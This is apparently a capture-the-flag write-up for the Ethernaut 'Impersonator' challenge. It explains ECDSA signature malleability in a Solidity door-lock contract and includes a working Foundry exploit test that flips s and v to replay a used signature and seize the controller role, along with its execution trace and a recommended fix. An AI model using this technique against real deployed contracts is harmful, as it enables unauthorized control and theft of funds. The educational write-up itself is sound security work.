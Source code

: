 # Impersanator Challenge(ethernaut Challenge)


### Challenge Overview:
SlockDotIt’s new product, ECLocker, integrates IoT gate locks with Solidity smart contracts, utilizing Ethereum ECDSA for authorization. When a valid signature is sent to the lock, the system emits an Open event, unlocking doors for the authorized controller. SlockDotIt has hired you to assess the security of this product before its launch. Can you compromise the system in a way that anyone can open the door?

***Vulnerability***:
The smart contract is vulnerable to a signature malleability attack due to the lack of checks on the s value of an ECDSA signature. This allows an attacker to generate an alternative but still valid version of a signature that can be used to bypass signature uniqueness checks or replay restricted actions.

**Cause**:

ECDSA signatures (r, s, v) have two valid versions for every message:

   > (r, s, v)
   > (r, n - s, 27 ⬌ 28)
Where:
n is the secp256k1 curve order:

0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141

The contract does not enforce that s is in the lower half of the curve```(s <= n / 2)```. As a result, two distinct but valid signatures can exist for the same message hash, and both will pass ecrecover.

### VulnerabilityCode:
```solidity
function changeController(
        uint8 v,
        bytes32 r,
        bytes32 s,
        address newController
    ) external {
        _isValidSignature(v, r, s);
        controller = newController;
        emit ControllerChanged(newController, block.timestamp);
    }
     
     function _isValidSignature(
        uint8 v,
        bytes32 r,
        bytes32 s
    ) internal returns (address) {
        address _address = ecrecover(msgHash, v, r, s);
        // require(_address == controller, InvalidController());
        if (_address != controller) {
            revert InvalidController();
        }

        bytes32 signatureHash = keccak256(
            abi.encode([uint256(r), uint256(s), uint256(v)])
        );
        require(!usedSignatures[signatureHash], "signer alreadyused");

        usedSignatures[signatureHash] = true;

        return _address;
    }

```
### Impact:

An attacker can:

1.Reuse a signature by creating a malleable version, bypassing replay protection (e.g., usedSignatures[keccak256(sig)] = true)

2.Impersonate a signer and perform unauthorized actions like changing contract ownership or draining funds.

3.Take over the controller in this specific case by using a malleable version of a previously used signature.

### Proof of code:
```solidity
contract ECLockerTest is Test {
    Impersonator public imp;
    address public nk_signer;
    uint256 private nk_signerPk;
    bytes32 public msgHash;
    uint256 public lockId;
    address public controller_nk;

    function setUp() public {
        nk_signerPk = 0xA11CE;
        nk_signer = vm.addr(nk_signerPk);
        imp = new Impersonator(0); //deploy the contract impersonator
        vm.startPrank(imp.owner());
        lockId = 1;

        //  Ethereum Signed Message Hash
        msgHash = keccak256(
            abi.encodePacked(
                "\x19Ethereum Signed Message:\n32",
                bytes32(lockId)
            )
        );

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(nk_signerPk, msgHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        imp.deployNewLock(signature); //deploy the lock with Ethereum signed hash
        vm.stopPrank();
    }

    function testSignatureMalleability() public {
        ECLocker locker = imp.lockers(0); //EcLocker instance

        // Sign message again to get original signature
        (uint8 v1, bytes32 r1, bytes32 s1) = vm.sign(nk_signerPk, msgHash);

        // Duplicate signatres s in ECDSA graph: s2 = n - s1
        uint256 n = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;
        bytes32 s2 = bytes32(n - uint256(s1));

        // Try using both valid signatures

        // First usage (original signature)
        vm.prank(nk_signer);
        locker.open(v1, r1, s1);
        // Second usage (malicious signature)
        // This should fail in a secure contract
        uint8 v2 = v1 == 27 ? 28 : 27;

        vm.prank(nk_signer);
        locker.open(v2, r1, s2); //  this should fail in a secure contract

        locker.changeController(v2, r1, s2, nk_signer); // this should fail in a secure contract
        assertEq(
            locker.controller(),
            controller_nk,
            "Controller should be changed"
        );
    }
}

```
Even though the original signature has already been used,but ECDSA graph have two signatures this is vulnerability

### TestCase:
```yaml

an 1 test for test/Impersnator.t.sol:ECLockerTest
[PASS] testSignatureMalleability() (gas: 88082)
Traces:
  [88082] ECLockerTest::testSignatureMalleability()
    ├─ [5140] Impersonator::lockers(0) [staticcall]
    │   └─ ← [Return] ECLocker: [0x104fBc016F4bb334D775a19E8A6510109AC63E00]
    ├─ [0] VM::sign("<pk>", 0xc9798da569c6ded6bd4b17373ef332b7c84d68cdec3f420f583dcd7b441ae31d) [staticcall]
    │   └─ ← [Return] 28, 0x803c3d50f6c6045271cffbbfa6321ffca565acf7e929e7c414a32ea755347241, 0x7c93e8acd34551d042421ba504a4e96c0e216884681a0e52f65e770894342c90
    ├─ [0] VM::prank(0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7)
    │   └─ ← [Return]
    ├─ [31965] ECLocker::open(28, 0x803c3d50f6c6045271cffbbfa6321ffca565acf7e929e7c414a32ea755347241, 0x7c93e8acd34551d042421ba504a4e96c0e216884681a0e52f65e770894342c90)
    │   ├─ [3000] PRECOMPILES::ecrecover(0xc9798da569c6ded6bd4b17373ef332b7c84d68cdec3f420f583dcd7b441ae31d, 28, 58002478631855971539320367201591076334196138846330609933668613418806804771393, 56348125607360146780372420456742903897957838190118489022110830123524616891536) [staticcall]
    │   │   └─ ← [Return] 0x000000000000000000000000e05fcc23807536bee418f142d19fa0d21bb0cff7
    │   ├─ emit Open(opener: 0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7, timestamp: 1)
    │   └─ ← [Stop]
    ├─ [0] VM::prank(0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7)
    │   └─ ← [Return]
    ├─ [29965] ECLocker::open(27, 0x803c3d50f6c6045271cffbbfa6321ffca565acf7e929e7c414a32ea755347241, 0x836c17532cbaae2fbdbde45afb5b1692ac8d7462472e91e8c973e7843c0214b1)
    │   ├─ [3000] PRECOMPILES::ecrecover(0xc9798da569c6ded6bd4b17373ef332b7c84d68cdec3f420f583dcd7b441ae31d, 27, 58002478631855971539320367201591076334196138846330609933668613418806804771393, 59443963629956048643198564551945003954879726088956415360494333017993544602801) [staticcall]
    │   │   └─ ← [Return] 0x000000000000000000000000e05fcc23807536bee418f142d19fa0d21bb0cff7
    │   ├─ emit Open(opener: 0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7, timestamp: 1)
    │   └─ ← [Stop]
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.77ms (1.80ms CPU time)

Ran 1 test suite in 15.17ms (4.77ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
nithin@ScateR:~/SCATERLABs/CTFs/EthernautChallenges$ 
```



### Recommendation :
Add a check to ensure the signature's s value is in the lower half order of the curve.
```solidity
require(
    uint256(s) <= 0x7FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF5D576E7357A4501DDFE92F46681B20A0,
    "Invalid s value"
);

```
Also ensure v is either 27 or 28:
```solidity
require(v == 27 || v == 28, "Invalid v value");

```
This ensures all accepted signatures are in canonical form, which eliminates malleability.

